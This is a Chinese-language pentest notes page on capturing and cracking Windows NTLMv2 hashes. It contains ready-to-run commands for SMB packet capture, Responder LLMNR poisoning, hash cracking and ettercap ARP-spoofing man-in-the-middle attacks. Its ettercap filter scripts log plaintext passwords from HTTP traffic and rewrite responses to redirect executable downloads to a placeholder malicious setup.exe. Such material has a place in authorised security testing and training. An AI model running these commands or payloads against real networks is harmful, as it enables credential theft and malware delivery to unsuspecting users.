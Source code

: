 # Domain's NTLM

> https://www.mike-gualtieri.com/posts/live-off-the-land-and-crack-the-ntlmssp-protocol
>
> https://9bie.org/index.php/archives/869/

## NTLMv2

+ 是一种在 Windows 网络上使用的质询/响应哈希算法。Windows Active Directory 还存在其他网络身份验证协议（最明显的是 Kerberos），但 NTLMv2 仍广泛用于当今的组织网络。因此，当代渗透测试中的许多工具都专注于拦截 NTLMv2 身份验证握手，这些握手可以组装成可破解的密码哈希或中继到网络上的其他主机以获得访问权限，而无需破解哈希。这些工具中最臭名昭著的是 Responder，它多年来一直是渗透测试武器库中的主要工具。
+ 通常使用445端口用于SMB访问网络资源

## 捕获NTLM本地

+ netsh.exe

  ```
  netsh.exe trace start persistent=yes capture=yes TCP.AnyPort=445 tracefile=C:\Users\Public\capture.etl
  netsh.exe trace stop
  ```
+ pktmon.exe

```
pktmon.exe filter add SMB -p 445
:: List all filters 
pktmon.exe filter list
:: Find id of the network adapter (example > Id: 9)
pktmon.exe comp list
:: pktmon.exe start --etw -p 0 -c [Adapter ID] -l real-time
:: Note: The real-time option is new in Windows 10 2004, and isn't required
pktmon.exe start --etw -p 0 -c 9 -l real-time
:: Will create the file PktMon.etl in current directory
pktmon.exe stop
:: Cleanup
pktmon.exe filter remove
```

+ tcpdump -i eth0 tcp port 445 -w test.pcap

## NTLM流量

+ 协商 Negotiation：NTLMSSP\x00 0x01000000
  + 包含工作组和域信息
+ 挑战 Challenge：NTLMSSP\x00 0x02000000
  + 服务器返回挑战 8字节的随机数据
+ 验证 Authentication：NTLMSSP\x00 0x03000000
  + 客户端对服务器的响应
+ NTLMv2组成
  + 域
  + 用户名
  + 工作组
  + NTLM响应
  + NT证明

## NTLM解密

+ john格式![1719381423083](image/Domain'sNTLM/1719381423083.png)
+ hashcat
+ 利用 https://github.com/mlgualtieri/NTLMRawUnHide 解密捕获的数据包中NTLM后用john爆破

## 捕获NTLM渗透

> 有感方法

+ LLMNR（链路局部多播名称解析）是一种域名系统 (DNS) 的替代品，用于在无法访问 DNS 服务器的情况下解析主机名。它允许在同一子网内的设备通过多播通信来解析主机名。
+ 当一台主机在本地网络中发送了一个 DNS 查询请求，但是没有收到响应时（例如，因为 DNS 服务器不可达或者主机刚刚加入网络），它可能会尝试使用 LLMNR 来解析名称。
+ responder -I eth0 -w
  + 目标主机输入了一个没有应答的主机名，responder自动应答，接受凭证得到NTLMv2

> 无感方法

+ et­ter­cap
  + ettercap -i eth0 -T -M arp:remote /192.168.0.123// /192.168.0.1//
  + etterfilter 过滤
    + ```
      if ( tcp.src == 80 || tcp.dst == 80) { 
              if (search(DATA.data,"password")) {
                      log(DATA.data, "/tmp/tmp.log");
              }
      }
      ```
  + ```
    if (ip.proto == TCP && tcp.dst == 80) {
        if (search(DATA.data, “Accept-Encoding”)) {
            replace("Accept-Encoding", "Accept-Mousecat");
            msg("zapped Accept-Encoding!\n");
        }
    }
    if (ip.proto == TCP && tcp.src == 80) {
        replace("keep-alive", "close" );
        replace("Keep-Alive", "close" );
    }
    if (ip.proto == TCP && search(DATA.data, ": application") ){
        msg("found EXE\n");
        if (search(DATA.data, "Win32")) {
            msg("doing nothing\n");
        } else {
            replace("200 OK", "301 Moved Permanently
            Location: http://你的恶意exe/setup.exe");
            msg("redirect success\n");
        }
    }
    ```
  + 搭配使用
    + etterfilter a.filter -o a.ef
    + sudo ettercap -i eth1 -T -q -F a.ef -M arp:remote /目标ip// /网关ip//
+ arp­spoof
+ 直接引用![1719384823240](image/Domain'sNTLM/1719384823240.png)
+
